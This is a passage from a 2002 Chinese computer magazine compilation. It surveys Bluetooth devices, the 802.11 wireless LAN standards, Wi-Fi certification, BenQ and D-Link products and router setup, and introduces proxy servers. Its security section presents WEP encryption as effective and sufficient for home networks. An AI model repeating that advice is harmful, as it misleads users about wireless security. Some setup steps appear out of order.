分析制约蓝牙技术发展的因素，芯片价格是一个大问题。如果蓝牙芯片的价格不能降下来，就不可能大量生产蓝牙芯片，而任何蓝牙产品都离不开蓝牙芯片，这就制约了蓝牙产品的推出。另外，蓝牙模块难生产。对应于蓝牙接口的设备，必须使用收发模块。蓝牙模块生产存在两个技术问题：一是决定模块小型化的安装技术；二是包含天线在内的最佳设计。解决小型化安装技术问题，LTCC（低温共烧陶瓷）是最卓越者。但若采用LTCC，同其它安装技术相比，制造成本至少要提高2倍左右。另外，关于天线的设计及安装也是个大问题。如果设备框体和内部构造不同，天线的特性将有巨大变化。

再有，全面测试难也制约了蓝牙产品的推广。对于通信产品来说，完成一致性测试、互连测试和性能测试是至关重要的。但目前蓝牙特殊兴趣小组推出的测试规范中，对状态转移和数据输出的覆盖率都非常小，即便按这些规范完成了软硬件的测试，也难以保证蓝牙产品的正确性。最关键一点是另一项类似的通讯协议的崛起硬生生地从蓝牙口中抢走了大量的客户，那就是IEEE 802.11系列协议。蓝牙与采用IEEE 802.11系列协议的无线局域网之间的干扰问题也一直在困扰着蓝牙的开发者们。

当然，对于无线局域网，业界也并非已经开始一面倒。作为同时投资于这两种无线技术，并拥有分别支持两种标准的成熟产品的主流厂商、美国3Com公司认为，蓝牙被开发出来是用于对IEEE 802.11系列协议的补充，而不是竞争和取代。蓝牙标准比IEEE 802.11系列协议更为完善，它对于不同的设备之间（例如蜂窝电话、掌上设备、笔记本计算机以及打印机）如何进行相互通信进行了详细的定义。而IEEE 802.11系列协议技术目前还没有可支持它的移动电话。虽然有关组织正在计划相关的事务，但还需要一段时间来完成相应的开发工作。

IEEE 802.11系列协议技术能够实现的传输速率是11Mbps，高于目前蓝牙的1Mbps，但是采用IEEE 802.11系列协议的产品芯片组比蓝牙芯片组需要消耗更多的电能，对于那些仅依赖电池就可以工作的小型掌上设备来说，不具备任何商业意义。而蓝牙技术更加适用于移动电话和掌上设备。同时，蓝牙的传输速率和传输距离也将在今后得到大大改善（见表1）。

表1 常见无线传输技术比较表
| 指标 | 红外线 (IRDA) | 蓝牙 (Bluetooth) | 802.11a | 802.11b | 802.11b+ (待审议) | 802.11g (未正式通过) |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 工作频带 | 111MHz～117MHz | 2.4GHz | 5GHz | 2.4GHz | 2.4GHz | 2.4GHz |
| 带宽 | 9.6Kbps～4Mbps | 1Mbps (1.1标准)<br>12Mbps (2.0标准) | 54Mbps | 11Mbps | 22Mbps | 36M (终极54Mbps) |
| 传输距离 | ≤10m | ≤10m (1.1标准)<br>≤100m (2.0标准) | 20～50m | 100～400m | 100～400m | 100～400m |
| 主要应用与走势 | 常用于手机、PDA等设备上，普及程度高 | 手机、PDA、笔记本电脑均有相应的产品 | 主要用于笔记本电脑的联网，产品价格偏贵，不普及 | 主要用于笔记本电脑的联网，正在普及，价格中等 | 刚上市 | 未上市 |

### （三）怎样用上蓝牙

尽管可以应用蓝牙技术的产品很多，但是最实际的无疑是蓝牙手机。我们知道，手机上最常见的通讯接口是红外线，但是它只有115kbps，比起蓝牙的1Mbps就要逊色多了。所以说，利用蓝牙技术将手机与电脑相连，可以使我们获得更多、更有价值的应用，比如上网、遥控电脑、更改手机LOGO、同步Outlook等。

#### 1. 基本条件

（1）你需要有一只具备蓝牙通信的手机。

由于爱立信是蓝牙技术发起者，所以它出品的新型手机基本都具有蓝牙功能。目前性价比最好的蓝牙手机无疑是T39，目前北京的价格为1200元左右，它内置蓝牙芯片，支持GPRS，也是目前论坛里网友们常提到、用到的一款机型。当然，如果你有一部具备方向杆的T68（如果你资金允许，能购买一部T68ie，那就太令人羡慕了），将会得到更多的乐趣（如图49、图50、图51）。表2列出了部分蓝牙手机及其功能。


表2 部分蓝牙手机一览表
| 品牌型号 | 主要功能 | 建议 |
| :--- | :--- | :--- |
| 爱立信T29sc | 可接蓝牙耳机、可接MP3播放器、可接爱立信FM收音设备、可接爱立信聊天板（chatboard），内置WAP浏览器。 | 淘汰品，不建议购买 |
| 爱立信T39mc | 融合蓝牙无线技术、GPRS、WAP等多项技术于一身的三频手机 | 比较超值，推荐购买 |
| 爱立信T68 | 全彩屏显示，支持音画短信（EMS），支持GPRS、WAP（1.2.1）、蓝牙 | 稍贵，唯一的遗憾是不支持MMS（彩信） |
| Sony Ericsson T68ie | 支持MMS、EMS、SMS、电邮、GPRS、WAP 2.0,可通过蓝牙、连接线、红外线连接 | 最高档的多功能手机 |

（2）需要有一台具备蓝牙通信能力的电脑。

①笔记本电脑

目前一些高档机型已经内置了蓝牙模块或者是提供了可选的蓝牙模块，比如Toshiba Tecra 9000/9100和Portege 4000系列、SONY PCG-C1-MSX、SONY SRX7、IBM X30等。当然了，这种机型的价格一般都是比较高的。表3中罗列出了部分蓝牙笔记本电脑及主要配置。

表3 部分蓝牙笔记本电脑一览表
| 品牌型号 | 主要配置 |
| :--- | :--- |
| TOSHIBA Tecra 9000 系列 | Intel Pentium Ⅲ-M 1.2GHz处理器，内置了8倍速的DVD及可读写CD-RW，16MB显存，内置56Kbps Modem、10/100Mbps局域网卡、预留Bluetooth及IEEE 802.11b接口 |
| TOSHIBA Tecra 9100系列 | Intel Pentium IV-M 2.0G,512MB/60G/14.1英寸/CD-RW+8倍速DVD /56kbps Modem/网卡/，预留蓝牙接口、802.11b无线网络插口 |
| TOSHIBA Portege 4010 PIII933G | Intel Pentium Ⅲ 933MHz处理器，/256M/30G/12.1英寸/内置8倍速DVD/56K/网卡/4X AGP/16M显存/轻薄/促包/WINXP，可选Bluetooth模块 |
| IBM ThinkPad X30系列的部分型号 | 超轻薄笔记本电脑,电池耐久达8小时,同时支持调制解调器、以太网、802.11b无线局域网、蓝牙和红外线5种有线和无线通讯方式,支持802.11b和蓝牙同时工作。重量仅为1.58公斤，配置如下：集成Intel 830 MG显示卡、12.1英寸TFT显示屏、256MB（最大1GB）PC 133 SDRAM内存、40GB硬盘。 |
| SONY PCG-C1MRX | TM5800 733MHz CPU，256MB内存，30GB硬盘，8.9寸SXGA屏幕的分辨率为1280×600，内置Modem、iLink等接口，支持蓝牙通讯。产品的尺寸仅为249x152x28mm，重量则为：998g。 |


CFan Bound Edition 2002

·315·如果没有蓝牙模块，那就需要另外购买蓝牙 USB、PCMCIA接口卡。常见的品牌有3Com、TDK、AnyCOM、蓝牙通等。

## ②台式电脑

随着数码时代的来临，很多主板厂商都纷纷推出了具有蓝牙模块的主板。通过主板上的蓝牙模块，也可以实现与蓝牙手机的通信功能。如果两台电脑都是蓝牙模块，则还可以进行双机直连，互传数据。

如果你的主板没有蓝牙模块也没有关系，和笔记本电脑类似，你可以购买 USB 接口卡，同样可以实现蓝牙连接（如图53）。从表4中可以看到两款蓝牙主板及其配件。

表4 部分蓝牙主板一览表

| 品牌型号 | 主要配置 |
|----------|----------|
| 微星 845E Max 2-BLR | Intel 845E, 支持Intel 478针Pentium 4 FC-PGA2处理器 (Willamette/Northwood), 主板附带的蓝牙套件为信号发射卡及碟型天线, 如需在两台机器间进行蓝牙通讯, 可另行购买USB接口的信号接收器。 |
| EpoX EP-4BEAV | 采用 Intel 845D(82845D(MCH)+82801BA (ICH2))芯片组, 支持 Intel Socket 478 Pentium 4处理器, 支持DDR 2100, USB 2.0, 提供更快的传输率, 支持EPOX独有的蓝牙配件 (需另购), 板载10/100Mbps VIA6105网卡。 |

## 2. 蓝牙应用

蓝牙技术并不能够实现上网，它的作用是在手机和笔记本电脑间建立无线连接。至于上网，必须要通过GPRS或者其他联网方式才行。谈起GPRS上网来，它实际也是需要通过蓝牙或者红外线端口等方式连接具有GPRS功能的手机，才能实现GPRS功能。

值得一提的是，方正颐和S2000系列笔记本电脑是国内第一款内置GPRS模块，并可随时随地实现登陆无线广域网的笔记本电脑。它在设计上采用了独特的技术，但在应用上却非常简单。在方正颐和S2000系列的底部有一小块活动面板，打开后里面是一个与手机SIM卡同样的插槽，我们把开通GPRS的手机SIM卡插入这个插槽中，关上面板，就可以开始使用GPRS提供的功能了，连手机都不需要。同样，也可以在笔记本电脑上直接实现语音通话。

### 六、无线局域网全接触

### （一）无线局域网的现状

随着笔记本电脑的逐渐普及，无线网络技术也受到了越来越多的关注。经过一番大浪淘沙式的竞争，IEEE 802.11系列标准的无线局域网技术逐渐成为了应用最广泛的标准。无线网络的维护成本低，没有众多的网络设备和线缆需要维护，将节约很大一笔费用。无线局域网的另外一个优势，就是可以节省办公空间，而这对于中小企业来说，无疑也是一笔很可观的费用。

### （二）无线局域网的标准

和我们平常接触的局域网一样，无线局域网也要遵循一定的标准：IEEE 802.11b、IEEE 802.11a、IEEE 802.11g、IEEE 802.11b+......存在这么多标准，一方面是由于人们不断追求更快速连接的缘故；这和CPU频率不断提升有些类似。另一方面，这也是各个公司争夺利益的一种结果。在当今这个时代，谁拥有了标准，谁就拥有获取利润、占领市场的法宝。通过下面这个表格，相信可以让你对这些标准的基本情况有一个简单的了解(见表5)。

### 1. 开山鼻祖IEEE 802.11

IEEE 802.11系列标准在不断地向前发展着，短短的五年时间，就已经有多个版本的标准诞生。1997年6月，第一个无线局域网标准IEEE 802.11正式颁布实施，为无线局域网技术提供了统一的标准，有力推动了该市场的快速发展。但是，其传输速率只有可怜的1~2Mbps。

表5 IEEE 802.11系列无线局域网标准对比表

| 指标 | 802.11 | 802.11a | 802.11b | 802.11b+(待审议) | 802.11g(未正式通过) |
|------|--------|---------|---------|------------------|---------------------|
| 工作频带 | 2.4GHz | 5GHz | 2.4GHz | 2.4GHz | 2.4GHz |
| 带宽 | 1~2Mbps | 54Mbps | 11Mbps | 22Mbps | 36M(终极54Mbps) |
| 传输距离 | 100m | 20~50m | 100~400m | 100~400m | 100~400m |
| 兼容性 | 无 | 无 | 无 | 兼容802.11b和802.11g | 兼容802.11b |
| 业务 | 数据 | 语音、数据、图像 | 语音、数据、图像 | 语音、数据、图像 | 语音、数据、图像 |
| 价格与走势 | 已经淘汰 | 偏贵 | 正在普及，中等 | 刚上市，中等 | 未上市 |

### 2. 后起之秀IEEE 802.11a/b/g

随着网络应用中视频、语音等关键数据传输需求的增加，用户对网络带宽的需求也越来越高，IEEE 802.11b、IEEE 802.11a等标准相继诞生。2001年，融合了IEEE 802.11b、IEEE 802.11a两种标准特性的混合型标准——IEEE 802.11g标准列入了IEEE（Institute of Electrical and Electronic Engineers，电气和电子工程师协会）讨论的议程。

### 3. 兼收并蓄IEEE 802.11b+

业界著名的DSP（Digital Signal Processing，数字信号处理）芯片厂商TI（德州仪器公司）等厂商提出了IEEE 802.11b增强型标准——IEEE 802.11b+。它可以兼容IEEE 802.11b标准，而速度则提高到了22Mbps。D-Link（友讯网络）等公司迅速跟进，推出了名为AirPlus的无线系列产品，受到了用户的欢迎。所谓的“IEEE 802.11b+”，IEEE并没有通过这种标准，所以它目前还不是国际标准，只能算是厂商自己的一种宣传而已。但是勿庸置疑，802.11b+已经成功地让遥不可及的WLAN更具实用性，并且它向后兼容802.11g。据D-Link（友讯网络）公司产品企划经理陈奇岩先生预言，AirPlus系列22M无线产品所基于的802.11b+技术将成为802.11g的主规格，而不是过渡。

在欧美和日本等发达地区，无线普及率很高，安全性已经不是人们担心的问题。在中国，无线局域网仍然处于起步阶段，人们对它的接受还需要一个过程，对于很多人非常关心的WLAN的相互干扰问题和漫游问题，随着技术的不断发展都已逐渐解决。

### （三）无线局域网产品的选购

前面已经说过，无线局域网的产品价格目前还是偏高，这也影响了它的应用与普及。好在已经有越来越多的厂商进入了这个市场，这也使得产品价格开始逐步下降。由于无线局域网产品的大量流行，几乎每个网络公司都推出自己的无线产品。购买时除了价格因素外，更多的还是要从技术体系与品牌保障加以考虑。

### 1. Wi-Fi认证

由于无线局域网产品的厂商众多，无线设备层出不穷，因此，如何保证产品间的相互兼容成了首要问题。而Wi-Fi（Wireless Fidelity）认证就是针对兼容性提出的。

Wi-Fi认证针对的是基于IEEE 802.11b标准的无线局域网产品。也可以说，Wi-Fi指的就是IEEE 802.11b标准。厂家的产品只有完全满足Wi-Fi标准，并通过Wi-Fi认证，才可以在其产品上打Wi-Fi标签。Wi-Fi标签是WECA（无线以太网兼容性联盟）注册的商标，只有通过WECA的授权，厂家才可以使用该商标。因此，用户只需认准Wi-Fi标签，便可保证他们所购买的无线基站、PC卡、手持设备、Internet电话以及其他任何无线局域网产品都能很好地协同工作。

Wi-Fi证书是由一个非赢利的工业组织即WECA颁布的。WECA是在1999年8月组建的，到目前为止会员已迅速增加到150多个，全球已有370个产品获得了Wi-Fi认证。WECA的核心工作是测试和认证。然而，鉴于会员公司之间存在相互竞争，利益冲突难免存在。为了减小这种冲突，WECA制定了严格的规章制度和测试与认证的程序。WECA全权委托一个独立的第三方组织，即安捷伦科技公司ICL互操作性认证实验室（原硅谷网络实验室），来测试所有会员公司的产品。WECA并不知道在何时对哪个特定的产品进行测试，也不会被通知哪些产品没有通过测试。只有通过测试并被授予证书的产品才会通知WECA。只有WECA成员才可以向安捷伦ICL实验室递交申请，对其产品进行Wi-Fi认证测试。因此，厂家必须先加入WECA组织，才能获得Wi-Fi测试服务。根据规定，对于同一厂家的不同型号及不同版本的产品都需分别进行测试，OEM产品需要被再次测试。

在中国，无线局域网技术和应用正在逐渐兴起，越来越多的厂家开始研制和生产自己的无线局域网产品，网络运营商也开始关注这一市场，并正在进行一些商业试用网的开通试验。但是，Wi-Fi认证的观念在中国还不太普及，人们还没有充分认识到Wi-Fi认证对保证无线局域网顺畅运行的重要性。随着无线局域网的进一步商用化，势必会有更多厂家的产品进入到这一市场。用户应优先选择具有Wi-Fi标签的产品，以获得最大可能的产品兼容性保证。国内的无线局域网设备生产厂家，也可尽早地加入WECA组织，使自己的产品通过Wi-Fi认证，这样才可以保证在激烈的市场竞争中占据主动。据悉，为方便亚洲国家的无线局域网设备厂家进行Wi-Fi认证测试，安捷伦科技公司最近在新加坡成立了全球第四家ICL实验室（在此之前，仅在北美有两家，欧洲有一家）。

### 2. 安全问题

无线网络最基本的安全措施是WEP（Wired Equivalent Privacy）。WEP是所有经过Wi-Fi认证的无线局域网所支持的一项标准功能。由电子与电气工程师协会（IEEE）制定的WEP可以提供基本的安全性保证，防止有意的窃听，利用一套基于40位共享加密秘钥的RC4加密算法对网络中所有通过无线传送的数据进行加密，从而有效地保护网络。

WEP协议是IEEE 802.11b无线局域网的标准网络安全协议，它分为128位、256位等多种。在传输信息时，WEP可以通过加密无线传输数据来提供类似有线传输的保护。在简便的安装和启动后，应立即更改WEP密钥的缺省值。最理想的方式是WEP的密钥能够在用户登录后进行动态改变，这样黑客想要获得无线网络的数据就需要不断跟踪这种变化。基于会话和用户的WEP密钥管理技术能够实现最优保护，为网络增加另外一层防范。

总结：加密算法位数越多越好，这和我们设置密码时位数设置得越多越好的道理是类似的。当然，对于一般家庭应用来讲，拥有128位WEP加密算法就已经足够了。

### 3. 服务

由于无线局域网颠覆了现有产品的布线结构，如果没有良好的质量与服务，降低维护成本的说法也就没有了基础。

总结：选择品牌好的厂商可以保证你获得更好的服务。如3Com、明基、D-Link等。

### 4. 相关产品介绍

#### (1) IEEE 802.11b代表产品明基电通AWL无线产品套装（如图54）

目前，基于802.11b的技术标准日渐成熟，各厂商产品差异不大的情况下，产品在安装、运行上是否便捷、稳定成为用户关注的焦点。明基无线产品包括：PCMCIA无线网卡AWL 100、USB无线网卡AWL 300、无线接入点AWL 500、无线路由器AWL 700。在安装的易行性上，明基采用智能化的安装软件，在设计初期广泛吸取了其他各大厂商的成功经验，操作界面更便捷、更人性化。在应用的拓展方面，明基利用其外设产品的优势，把无线局域网与投影仪、LCDTV等外设和电器相结合，使应用操作更便捷，应用范围更广泛。而且即将推出的802.11a+b，在网络兼容性、运行稳定性上都将实现新的突破。


AWL700采用灰黑色塑制外壳，表面呈波浪造型并外嵌大面积散热孔（如图55）。


产品的前、右侧边缘外套为亚黑色有机玻璃，电源、连接状态、传输模式等指示灯都内藏其中。AWL700兼容IEEE802.11b无线网络标准以及IEEE802.3 10 Base-T、IEEE802.3u 100Base-T标准，通过Wi-Fi认证，确保多厂商产品的互用性。接口方面提供4个10/100Base-TX以太网接口(RJ45)、1个10Base-TX接口(RJ45)，并发用户数最多可支持32个，支持TCP/IP、IPX、NetBEUI传输协议，并具备通过WEB进行远程配置和监控、支持访问控制(MAC地址过滤器)和IP数据包过滤、支持PPP PAP/CHAP/MS-CHAP认证、支持VPN的PPTP，L2TP/IP Sec等功能，而且还支持防火墙升级管理。


图56是AWL700后部的接口部分，从左到右依次为4个10/100Mbps局域网接口、1个10Mbps广域网接口和电源接口，右侧是一个Reset复位键，最左侧是实现无线传输的天线，其重要性不言而喻。与AWL700相联的设备之间均使用64/128-bit的WEP(有线等效保密性)加密方式，以保证数据在无线网络中传输的安全性。

AWL700不但能水平放置，还可以通过附带的金属底座竖放以便进一步节省桌面空间，从背面部分可以发现，该款产品还支持壁挂的放置形式（如图57）。


再来看看 BenQ AWL100 PCMCIA 适配卡（如图58、图59所示），TypeII型 PC Card 设计，主体采用银色铝制外壳，正面贴有醒目的 BenQ 标志，配合 AWL700 可以为笔记本提供无线网络连接功能。


AWL100兼容IEEE802.11b无线网络标准，通过了Wi-Fi认证，支持Windows 95(OSR2)/98/98 SE/2000/ME/XP（支持NDIS5）、Linux等操作系统并具备网络诊断功能。数据安全性方面与AWL700相同，使用64/128-bit的WEP(有线等效保密性)加密方式。工作频率运行在2.400-2.4835GHz，支持多个信道的工作频率范围设置，可根据周围环境灵活选择不易受到干扰的合适工作频段，从而实现数据的最佳传输效果。

#### (2) 异军突起的22Mbps D-Link AirPlus 系列产品

当美国TI（德州仪器）公司推出了传输速率达到22Mbps的无线局域网产品的芯片后，D-Link（友讯网络）公司迅速跟进，在美国市场上推出了名为 AirPlus 的IEEE 802.11b+无线局域网系列产品。由于它的传输速率是采用IEEE 802.11b标准的产品的两倍，高达22Mbps，售价与其也相差不大（美国市场上1台22Mbps无线AP的价格为170美元，而传统802.11b的AP的价格大都在150美元以下；22Mbps网卡的零售价为90美元，而传统802.11b网卡约80美元），同时它还兼容IEEE 802.11b标准，所以一经推出就大受消费者欢迎。2002年9月，D-Link中国公司决定将其引入中国，并投入巨资进行推广。AirPlus系列产品共有5款：无线局域网宽带路由器DI-614+、无线局域网访问节点DWL-900AP+及DWL-1000AP+、无线局域网适配器DWL-650+（适用笔记本电脑）及DWL-520+（适用台式电脑），其简介如下。

宽带路由器：D-Link AirPlus DI-614+无线局域网宽带路由器采用了德州仪器公司最先进的802.11b硅芯片技术，拥有坚固的防火墙安全特性（如图60）。DI - 614 +更是那些已经安装了无线局域网并且需要升级的用户的理想选择。对于更高级的应用而言，DI - 614 +为用户提供熟悉的管理界面以及基于MAC地址、IP地址、URL等多种数据过滤策略。其基于Web的安装向导，使用户可以很容易的将DI - 614 +与电脑相连，共享高速的Internet连接、文件、资源、游戏甚至语音视频。其内置的4个交换端口可最多直接连接4台电脑。若干无线局域网用户亦可使用64位、128位或者256位的访问认证与网络连接。D-Link AirPlus DI-614+为家庭办公、校园网以及其他小型办公环境的网络用户提供了理想的解决方案。


访问节点：无线局域网访问节点DWL-900AP+及DWL-1000AP+（如图61）可被设置成4种不同的工作模式：作为无线网络访问节点；作为点对点的桥接设备与其他访问节点进行通信；作为点对多点无线桥接设备；或者作为无线客户端。有内置DHCP功能，启用该项服务可自动为连接的无线客户端分配IP地址而无需在网络上使用单独的DHCP服务器。此项独特的功能可在任何地点快速建立用户所需的无线网络。诸如办公环境或其他工作环境/贸易展览的临时场所或大型仓储超市。该系列无线局域网访问节点支持256位WEP方式认证为用户的数据传输提供更高级别的安全性与无线通信。


无线网卡：适用于台式电脑的D-Link DWL-520+网卡完全兼容IEEE 802.11b标准，使得它可以与现有的设备一起使用。D-Link AirPlus无线网卡支持高达256位的WEP认证方式，为用户提供更高级别的数据传输安全性。支持32bit CardBus总线结构，使得用户可以简单而快速的将其安装到笔记本电脑或台式电脑上，并且自动连接到网络。所有D-Link无线网卡可以使用分布对等方式与其他无线网卡直接通信；或者使用集中控制方式通过访问节点与有线网络进行数据通信以及访问Internet。

### （四）实战无线局域网

组建无线局域网最大的好处就是可以让我们没有任何束缚，自由畅快的访问网络。随着新产品的不断推出，厂商们也在逐渐简化安装设置的步骤。简单来说，组建无线局域网主要包括安装接入点（Access Point）或无线路由器、无线网卡的过程。随着笔记本电脑的不断发展，一些厂商开始为笔记本电脑内置无线网卡，受价格因素影响，这些网卡多为IEEE 802.11b标准的产品，例如东芝的Satellite Pro 4600和Tecra8200两种型号。不过，这些产品的价格也比其他产品要高出不少。下面，我们以明基电通公司的AWL无线产品套装为例，为大家简单介绍无线网卡、接入点的安装、设置步骤。

### 1. 安装接入点或路由器

在我们部署一个无线局域网的时候，首先应该计算的就是需要几个接入点。不同厂商的产品所支持的用户是不同的，最好能根据自己的网络需求购买相应的产品，以免造成浪费。以明基AWL700无线路由器为例，它需要与AWL100、AWL300无线网卡配套使用，安装设置十分方便。在多用户的环境里，能在同一时刻连接32位用户。这对于一般的SOHO来说，已经完全足够了。由于AWL700同时又是一台带有4个线序自适应端口的交换机，可以充当在家中或公司办公室内xDSL/Cable上网的节点。AWL700是一台智能的DHCP服务器，不需专门的设备就可分享IP地址，且具有强大的网管功能。

### 2. 注意事项

在您安装AWL700之前，请检查一下您是否满足以下要求。网络接入：如ADSL/Cable Modem等宽带接入设备或办公室局域网。线缆：非屏蔽五类线（UTP Cat-5）。无线网卡：PCMCIA或USB接口均可，本例中采用的是明基的AWL100、AWL300。WEB浏览器：Internet Explore 5.0 或更高，或Netscape Navigator 4.5 或更高，这是因为了明基AWL700采用WEB页面方式进行配置、管理。

### 3. 硬件安装

1. 打开 ADSL Modem 或 Cable Modem。
2. 将RJ-45线缆的一头插入AWL700的WAN口，将另一端插入到ADSL/Cable Modem/ LAN的LAN口。
3. 将电源适配器接入电源插座，AWL700的电源灯将亮绿色，WLAN口的LED灯也将连闪两次。

注意：您的工作站的SSID默认值为BENQ或ANY。

### 4. 驱动程序及设置

安装完硬件后，将驱动程序光盘放入光驱中，在AWL700目录下找到device_search.exe程序，双击执行该程序。弹出如下一个搜索无线网关状态的小窗口（如图62）。


1. 搜索几秒钟后，弹出如下窗口(如图63)。单击Mac Address项，然后单击Open IE to Setup图标进入WEB配置界面，首先得确定您的计算机的IP地址与AWL 700的IP地址在同一网段（如图64）。
2. 要求你输入用户名和密码（默认值均为Admin，如图65）。

## 5. 安装无线网卡

模式并填写相关参数（IP地址、掩码和默认网关）。

●拨号方式：在PPPoE Parameters参数设置中选PPPoE模式并填写用户名、密码、服务器名、ISP提供的服务器名（假如ISP不提供，可以不填写）。

检查您所使用的模式后，单击网页底部的Apply按钮，然后在网页的左边单击Save Setting按钮，根据提示完成设置。如果还想获得有关设置的更多信息，请参考光盘内的用户使用手册。

（1）本例中使用的是PCMCIA接口的无线网卡，将其插入笔记本电脑的专用插槽后，左侧的黑色天线部分露在外面，这样可以保证在最大限度上获得无线信号。网卡表面提供了一个连线状态指示灯，不断闪动表明正搜寻可用的无线网络，当连线正常后指示灯长亮，方便用户了解当前的使用状态（如图67）。

（2）第一次使用AWL100时，Windows XP操作系统自动认出了该设备，产品提供了安装用驱动光盘，整个设备的安装工作非常简单，和我们平常接触的硬件产品没有差异。安装好驱动程序后，下次再使用AWL100 PCMCIA无线网卡，系统会立刻识别并启动该设备（如图68）。

（3）你可以浏览如下WEB网页，并进行高级设置，在第一次设置时有两种情景（如图66）。

- ① 如果您使用Cable Modem，则在IP参数设置中选DHCP模式。
- ② 如果您使用ADSL设备，则分为固定IP地址和拨号方式两种类型。
  ●固定IP地址：在IP参数设置中选Fixed IP


（3）安装好驱动程序后可以根据需要在设备的管理软件中进行设置，AWL100支持Access Point基本连接模式（以接入点为中心进行联结的网络模式）和Peer-to-Peer点对点连接模式（无须接入点的网络模式）。前者组成一个相当于星形网络拓扑结构，需要接入点（也就是我们常听说的AP）的支持，适合多用户使用网络的情况。后者则组成一个对等的网络结构，适合两台电脑临时建立网络的情况，这和我们在台式机上进行的双机直连有些类似（如图69）。


（4）在正式使用AWL100进行无线网络连接前，我们习惯性的将TCP/IP属性进行了常规的设置，方法与使用普通网卡的设置完全相同，填好之后就一切OK了。而实际上，AWL100与AWL700的组合具备自动分配网内IP地址的功能，即使不进行上述设置，系统同样可以进行自动设置并正常使用（如图70）。


至此，组建无线局域网的工作就大功告成了！这是使用AWL100的笔记本电脑成功连接后的状态，连接速度显示为11.0Mbps，与标称的理论值相符。

另外，还可以通过BenQ AWL100驱动中自带的状态监控软件显示更为精准的连接速率。上图显示的是距离AWL700大约5米时的连线状态，速率为11Mbps，联机品质达到100%，信号强度良好，达到理论效率的93%（如图71）。实际使用效率与普通的10Mbps有线局域网大抵相当，可以达到5-6Mbps的交换速率。随后我们尝试了一下在写字楼环境下的最大传输距离，在离开信号源大约10米的地方，联机品质下降到了70%，20米的地方下降到30%左右，而在25米处信号已经中断了。由于钢筋混凝土结构的楼房对无线信号的阻碍力较强，所以当我们跑到楼上和楼下的同一位置时，连线品质只有不到10%，无线网络几乎不能正常使用（如图72）。由于BenQ AWL700和AWL700都有通过单元间或网关的无缝隙漫游功能，当回到信号较好的区域，无线网络会自动联通。


（文/数码英雄）

## 通通透透话“代理”

现在，越来越多的公司建立起了自己的内部网，越来越多的家庭用户也拥有了2台以上的计算机，如何让这些计算机能同时连上Internet呢？这时就需要用到代理服务器了。那什么是代理服务器？它是如何工作的？它有什么作用以及如何配置和使用？这些问题就成了人们很关心的话题。有鉴于此，笔者就把自己所知道的有关代理服务器的知识写下来，希望能给那些迫切想了解这方面知识的用户或网友带去一点点帮助！

### 一、代理服务器的功能

代理服务器英文全称是Proxy Server，其功能就是代理网络用户去取得网络信息。形象点说，它就是网络信息的中转站。

代理服务器的主要功能有以下几点。

- 1. 充当Firewall（防火墙）
  因为所有内部网的用户通过代理服务器访问外界时，只映射为一个IP地址，所以外界不能直接访问到内部网。同时它可以设置IP地址过滤，限制内部网对外部的访问权限；另外，两个没有互联的内部网，也可以通过第三方的代理服务器进行互联来交换信息。

- 2. 节省IP开销
  使用代理服务器，所有用户对外只占用一个IP即可，就不必为局域网中的每一台机器都租用一个IP地址了，这也降低了网络的维护成本。

- 3. 提高访问速度
  由于代理服务器通常都设置有一个较大的硬盘缓冲区（可能高达几个GB或更大），当有外界的信息通过时，同时也将其保存到缓冲区中，当其他用户再访问相同的信息时，则直接由缓冲区中取出信息，传递给用户，从而达到提高访问速度的目的。

- 4. 用户验证授权功能
  可按用户进行授权，没有登记或授权的用户无权通过代理服务器访问Internet网，并可对用户的访问时间、访问地点、信息流量进行统计。这个功能对于网吧等商业用户来说是非常有用的。

- 5. 网络服务转发
  对于代理服务器而言，它可以转发客户端提出的网络请求，将相应的数据请求转发至目标服务器端以获得相应的数据信息，并将数据信息发送给客户端。这样可以让使用者正常访问自己所在区域由于某些原因（如所在网络局部区域路由出问题或DNS出错等情况）无法正常访问的目标服务器。

### 二、代理服务器的工作原理

代理服务器的工作机制很像我们生活中常常提及的代理商，假设你的机器为A机，你想获得的数据由C机提供，代理服务器为B机，那么使用代理服务器的网络连接过程是这样的：首先，A机需要C机的数据，它先与B机建立连接，B机接收到A机的数据请求后，然后与C机建立连接，下载A机所请求的C机上的数据到本地机器B，再将此数据发送至A机，完成网络代理任务（如图1）。


上面的介绍只是一个简单的描述，实际上代理服务器完成任务的过程比上面描述的要复杂得多，提供的功能也要多得多。目前通过代理方式可以支持绝大部分的Internet应用，从一般的WWW浏览到RealAudio、NetMeeting等都可以通过代理方式实现，而且目前新型的代理服务器软件还可以支持对Novell用户的代理服务。

代理服务器的类型很多，如HTTP代理、FTP代理、Socks代理等。

- 1. HTTP代理
  能够代理客户机的HTTP访问，主要是代理浏览器访问网页，它的端口一般为80、8080、3128等。

- 2. FTP代理
  能够代理客户机上的FTP软件访问FTP服务器，它的端口一般为21、2121。

- 3. RTSP代理
  代理客户机上的Realplayer访问Real流媒体服务器。

- 4. POP3代理
  代理客户机上的邮件软件用POP3方式收发邮件，端口一般为110。

- 5. Socks代理
  Socks代理与其他类型的代理不同，它只是简单地传递数据包，而并不关心是何种应用协议，既可以是HTTP请求，也可以是FTP请求，还可以是其他类型的请求，所以Socks代理服务器比其他类型的代理服务器速度要快得多。Socks代理又分为Socks4和Socks5，二者不同的是Socks4代理只支持TCP协议（即传输控制协议），而Socks5代理则既支持TCP协议又支持UDP协议（即用户数据报协议），还支持各种身份验证机制、服务器端域名解析等。Socks4能做到的Socks5都可以做到，但Socks5能够做到的Socks4则不一定能做到，比如我们常用的聊天工具QQ在使用代理时就要求使用Socks5代理，因为它需要使用UDP协议来传输数据。

### 三、代理服务器的获取途径

对大多数计算机用户来说，要想通过代理服务器上网，首先必须知道代理服务器的地址以及所提供的代理服务类型。那么我们通过什么途径才能获得代理服务器呢？就目前而言，常见的获得代理服务器的途径主要有以下三个方面：

- 通过网络的链接以及一些专门为他人提供网络代理列表服务的网站或者论坛获得
- 自己使用代理搜索软件来搜索代理服务器
- 如果有特殊需要可以自己架设代理服务器

相比较而言，通过第一种途径获得代理服务器的方法是最简单最方便的，这种途径获得的通常是别人曾经测试过的一些免费或者无需身份验证的匿名代理服务器。但是由于这些代理服务器具有很强的时效性，通常在被公布一段时间后就会关闭而失去作用，因此当你从网络上获得这些代理服务器的地址时，这些代理可能已经无法正常使用了。而通过第二种以及第三种途径获得的代理则比较可靠，因此在这里我们就详细地介绍一下如何通过第二种以及第三种途径获得代理服务器的方法。

### （一）代理服务器的分类

通过代理服务器共享上网从技术实现角度来说可以分为硬件共享上网和软件共享上网两种。

### 1. 硬件共享上网

